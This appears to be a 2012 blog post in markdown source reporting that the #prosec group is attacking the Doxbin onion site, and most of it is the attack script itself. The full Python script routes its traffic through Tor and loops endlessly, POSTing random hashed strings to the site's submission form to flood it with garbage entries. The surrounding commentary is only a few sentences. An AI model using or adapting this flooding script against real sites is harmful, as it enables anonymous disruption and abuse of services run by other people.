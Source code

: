 ```yaml
---
comments: true
date: "2012-04-11T18:42:43Z"
tags:
- nerdwar
- infosec
- prosec
- doxbin
title: '#Prosec Attacks on Doxbin'
---
```


Looks like #prosec is [nerdraging][1] on [@doxbin][2]. The effects can be seen
[here][3]. The attack I noticed first was a semi-lame HTTP POST attack that
floods doxbin with garbage "dox". Code here:

```python
#!/usr/bin/python

import socks
#google it, it's a common python extension
import socket
#127.0.0.1:9050 is the default TOR socks4 proxy
#this connects to TOR
socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS4, "127.0.0.1", 9050)
socket.socket = socks.socksocket
from httplib import *
from urllib import *
import random
import time
import hashlib

times = 1
while 1:
	############DOX############
	doxrand = random.choice('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890')
	dox = hashlib.sha224(doxrand).hexdigest()
	print dox
	#doxrand = picking a random character
	#dox = SHA hashing of the random character defined in doxrand
	##############NAEM###########
	naemrand = random.choice('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890')
	naem = hashlib.sha224(naemrand).hexdigest()
	print naem
	#same as above
	##############

	connection = HTTPConnection("doxbinumfxfyytnh.onion")
	#establishing HTTP conenction to website
	head = {"Content-Type" : "application/x-www-form-urlencoded", "Accept" : "text/plain"}
	#constructing the header, so the webserver will respond properly
	parameters = urlencode({"naem" : naem, "dox" : dox})
	#defining the data to be used during POST, note naem and dox refer to the random strings from ealier
	#they must correspond to the ID fields from the web form, otherwise..it won't work
	connection.request("POST", "/post.php", parameters, head)
	#pushing the data to the post function of the php file
	print 'Connection OK...Continuing..'
	print 'Spammed', 
	print times, 
	print 'times!'
	times = times + 1
	time.sleep(30) #in seconds
	#self explanitory
```

Now, however, it looks like there are 403 Forbidden errors. I'm thinking Nachash
will get things running again soon.


[1]: http://pastebin.com/eVpCrD47
[2]: http://twitter.com/#!/doxbin
[3]: https://doxbinumfxfyytnh.tor2web.org/

